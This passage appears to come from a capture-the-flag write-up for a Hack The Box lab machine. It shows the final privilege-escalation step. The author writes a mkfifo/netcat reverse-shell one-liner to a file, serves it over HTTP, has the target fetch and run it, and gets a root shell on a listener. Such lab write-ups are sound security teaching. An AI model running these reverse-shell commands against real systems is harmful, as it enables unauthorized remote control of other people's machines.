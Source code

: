 Then, let's prepare reverse shell file to upload on target.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat rshell.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001 >/tmp/f


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
```

I can simply download using `wget` command.

![](attachments/hawk_11.png)

After that, I need to give `Execution` permission to the file.

![](attachments/hawk_12.png)

Everything is set, so I can run the file to spawn a reverse shell.

![](attachments/hawk_13.png)

Then, let's wait on listener to get a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.102] 47518
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

I got root!